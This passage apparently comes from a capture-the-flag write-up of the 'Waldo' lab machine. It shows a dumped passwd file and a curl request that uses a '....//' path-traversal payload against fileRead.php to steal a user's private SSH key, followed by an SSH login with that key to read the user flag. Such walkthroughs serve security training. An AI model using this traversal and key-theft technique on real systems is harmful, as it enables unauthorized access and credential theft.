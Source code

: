     cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
    ftp:x:21:21::/var/lib/ftp:/sbin/nologin
    sshd:x:22:22:sshd:/dev/null:/sbin/nologin
    at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
    squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
    xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
    games:x:35:35:games:/usr/games:/sbin/nologin
    postgres:x:70:70::/var/lib/postgresql:/bin/sh
    cyrus:x:85:12::/usr/cyrus:/sbin/nologin
    vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
    ntp:x:123:123:NTP:/var/empty:/sbin/nologin
    smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
    guest:x:405:100:guest:/dev/null:/sbin/nologin
    nobody:x:65534:65534:nobody:/home/nobody:/bin/sh
    nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
    

#### Interesting Files

In enumerating the box with dir list and file read, I’ll find a few
interesting things.

  * Right away we see `.dockerenv` in the root. Looking around further, the box is sparse, so I am likely in a container.

  * There’s one user on the box, nobody. There’s a `user.txt` in the nobody home directory, but as mentioned above, I can’t read it. I’ll need to get shell access.

  * There’s also a .ssh folder, which contains a file named `.monitor`, which is a private ssh key. I’ll save it with this command:
    
        root@kali# curl -s -X POST -d "file=....//....//....//home/nobody/.ssh/.monitor" http://10.10.10.87/fileRead.php | jq -r .file > ~/id_waldo_nobody
    

## SSH Access as nobody

Now with an ssh key, I can get a shell on Waldo as nobody:

    
    
    root@kali# ssh -i id_rsa_waldo_nobody nobody@10.10.10.87
    Welcome to Alpine!
    
    The Alpine Wiki contains a large amount of how-to guides and general
    information about administrating Alpine systems.
    See <http://wiki.alpinelinux.org>.
    waldo:~$ id
    uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
    

This gives me access to `user.txt`:

    
    
    waldo:~$ wc -c user.txt
    33 user.txt
    waldo:~$ cat user.txt
    32768bcd...
    